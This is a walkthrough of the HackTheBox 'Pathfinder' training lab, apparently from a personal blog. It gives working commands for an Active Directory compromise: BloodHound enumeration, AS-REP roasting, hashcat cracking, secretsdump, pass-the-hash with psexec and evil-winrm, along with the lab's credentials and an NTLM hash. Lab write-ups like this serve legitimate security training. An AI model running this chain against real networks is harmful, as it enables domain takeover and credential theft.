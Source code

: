 
*2021-08-21*

*kimm3*

# Walkthrough: Pathfinder
Platform: HackTheBox, Starting Point

Difficulty: Very Easy

This is the fifth box in the starting point series.

The boxes build on each other so make sure to save credentials and other intersting information that you find.

Ref:
- [Bloodhound](https://bloodhound.readthedocs.io/en/latest/index.html)
- [Hausec AD pentesting part II, some good tips](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
- [Kerberoasting](https://www.blackhillsinfosec.com/a-toast-to-kerberoast/)
- [Impacket](https://github.com/SecureAuthCorp/impacket)
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)

## Scans and enumeration
```
export IP=10.10.10.30
sudo nmap $IP -p- -Pn -A -oA nmap/init-scan
```

![init-scan](assets/markdown-img-paste-20210821063908146.png)

That looks like a Windows domain controller, indicated by ldap and kerberos. Information found includes:

- Hostname: PATHFINDER
- Domain: MEGACORP
- Other protocols worth enumeration: DNS, SMB, WinRM
If we get credentials, we can try to use windows remote management to access the machine.

The domain name is the same as the previous boxes. Since we have domain users credentials from the Shield box, we can enumerate further with bloddhound tools.

You'll need bloodhound and the neo4j packages installed.

There's a [python bloodhound collector tool](https://github.com/fox-it/BloodHound.py) so that you don't have to depend on windows apps.

```
pyhon3 -m venv pathfinder
source pathfinder/bin/activate
pip install bloodhound
```

`bloodhound-python -d megacorp.local -u sandra@MEGACORP.local -p Password1234! -dc pathfinder.megacorp.local -ns $IP -c all --zip`

![bloodhound-import](assets/markdown-img-paste-2021082105153908.png)

Drag and drop the zipfile in to bloodhound. Run some built-in quieries from the analysis window. Apart from the administrator user, there's a user called svc_bes that has the 'GetChanges' and 'GetChangesAll' rights to the domain.

![svc-bes](assets/markdown-img-paste-20210821051834754.png)

![get-tools](assets/markdown-img-paste-20210821061817697.png)

Let's try to get some hashes. First we'll try to get SNPs.

![getusersnps.py](assets/markdown-img-paste-20210821054126891.png)

This fails due to my machine not having the same time as the DC, we'll try to sync time if the others techniques dosen't work.

![getnpusers.py](assets/markdown-img-paste-20210821062004467.png)

Success, let's try to crack it.

![hc-wiki](assets/markdown-img-paste-2021082106211154.png)

`hashcat -a 0 -m 18200 hashes/svcbes sl/Passwords/Leaked-Databases/rockyou.txt`

![hc-cracked](assets/markdown-img-paste-20210821062307483.png)

## Exploiting the machine
`secretsdump.py megacorp.local/svc_bes:Sheffield19@10.10.10.30 -dc-ip $IP`

![secretsdump.py](assets/markdown-img-paste-20210821063937478.png)

Let's try psexec.py with the administrator hash.

`psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18`

![root.txt](assets/markdown-img-paste-20210821064140394.png)

It works.
## Alternative
With the svc_bes user, we can use winrm to get in to the machine and get the user.txt.

![user.txt](assets/markdown-img-paste-20210821064819883.png)

Install evil-winrm and connect with: `evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19`

Once you have the hash of the administrator, you can use evil-winrm to connect as administrator as well:

![evil-winrm-adm](assets/markdown-img-paste-20210821065214379.png)

## An easier way
Don't know why I didn't try this first, but the user sandra gets in with winrm. From here you can upload files like mimikatz and winpeas.

![sandra-winrm](assets/markdown-img-paste-2021082107072358.png)
